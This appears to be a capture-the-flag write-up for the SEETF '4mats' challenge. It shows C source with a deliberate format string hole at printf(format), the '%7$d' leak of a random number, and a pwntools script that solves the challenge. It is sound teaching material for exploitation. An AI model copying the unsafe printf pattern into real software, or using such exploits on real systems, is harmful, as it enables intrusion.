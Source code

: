 ## 4mats
![pointytail](images/4mats.png)

### Description
>Author: Enyei\
>ets get to know each other\
>nc fun.chall.seetf.sg 50001\
>For beginners:\
>https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/ \
>MD5: ceb6336c44a38f093de9bfb3e3902a0

### Introduction
This is just a basic formatstring vuln challenge. The source code was given, and it look like this.
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char name[16];
char echo[100];
int number;
int guess;
int set = 0;
char format[64] = {0};


void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
	system("cat flag");
        exit(0);}
   else{
       printf("Not even close!\n");
   }
       
}


int main() {

mat1:
    printf("Welcome to SEETF!\n");
    printf("Please enter your name to register: %s\n", name);
    read(0, name, 16);

    printf("Welcome: %s\n", name);

    while(1) {
mat2:
        printf("Let's get to know each other!\n");
        printf("1. Do you know me?\n");
        printf("2. Do I know you?\n");

mat3:
        scanf("%d", &number);


        switch (number)
        {
            case 1:
                srand(time(NULL));
                int fav_num = rand() % 1000000;
		set += 1;
mat4:
                guess_me(fav_num);
                break;

            case 2:
mat5:
                printf("Whats your favourite format of CTFs?\n");
		read(0, format, 64);
                printf("Same! I love \n");
		printf(format);
                printf("too!\n");
                break;

            default:
                printf("I print instructions 4 what\n");
		if (set == 1)
mat6:
                    goto mat1;
		else if (set == 2)
		    goto mat2;
		else if (set == 3)
mat7:
                    goto mat3;
		else if (set == 4)
                    goto mat4;
		else if (set == 5)
                    goto mat5;
		else if (set == 6)
                    goto mat6;
		else if (set == 7)
                    goto mat7;
                break;
        }
    }
    return 0;
}
```

We can leak the **fav_num** with formatstring vuln at offset 7, just input `%7$d`.\
![pointytail](images/4mats2.png)
For prevent **fav_num** to random again, we need set the **set** value to 4 first then leak the favnum.\
After that just input anything but not 1 or 2, the it will jump to default and because set value was 4, it will go to **mat4** and call the **guess_me()** function.\
Now just input the number and got the flag.

Full script:

```py
from pwn import *
from sys import *

elf = context.binary = ELF("./vuln")
p = process("./vuln")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50001

cmd = """
b*main
"""

if(argv[1] == 'gdb'):
	gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
	p = remote(HOST,PORT)

p.sendline(b'Linz')
for i in range(4):
	p.sendline(b'1')
	p.sendline(b'123')

p.sendline(b'2')
p.sendlineafter(b"?\n", b'%7$d')

p.interactive()
```